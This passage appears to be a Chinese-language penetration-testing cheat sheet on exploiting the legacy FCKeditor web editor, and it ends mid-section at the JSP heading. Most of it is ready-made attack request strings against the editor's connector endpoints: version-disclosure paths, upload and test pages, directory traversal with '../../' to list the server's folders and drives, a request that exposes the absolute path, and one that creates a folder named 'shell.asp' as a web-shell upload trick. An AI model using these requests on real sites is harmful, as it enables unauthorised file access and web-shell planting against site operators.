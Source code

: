 一、FCKeditor
===========

1.1 漏洞分析
--------

1.查看版本号

```php
/fckeditor/editor/dialog/fck_about.html
/fckeditor/_whatsnew.html
```

2.常见的测试上传地址

```php
/FCKeditor/editor/filemanager/browser/default/connectors/test.html
/FCKeditor/editor/filemanager/upload/test.html
/FCKeditor/editor/filemanager/connectors/test.html
/FCKeditor/editor/filemanager/connectors/uploadtest.html
```

3.常见的上传地址

```php
（1）connector.aspx文件
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/　
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector.jsp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/php/connector.php
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/aspx/connector.aspx
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/jsp/connector.jsp
（2）browser.html文件
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector.jsp
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/aspx/connector.Aspx
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/php/connector.php
```

4.列目录

```php
修改CurrentFolder 参数使用 ../../来进入不同的目录
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=shell.asp
根据返回的XML 信息可以查看网站所有的目录。
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F
爆网站绝对路径
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/xx.asp&NewFolderName=x.asp
也可以直接浏览盘符：
/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=e:/
JSP 版本：
```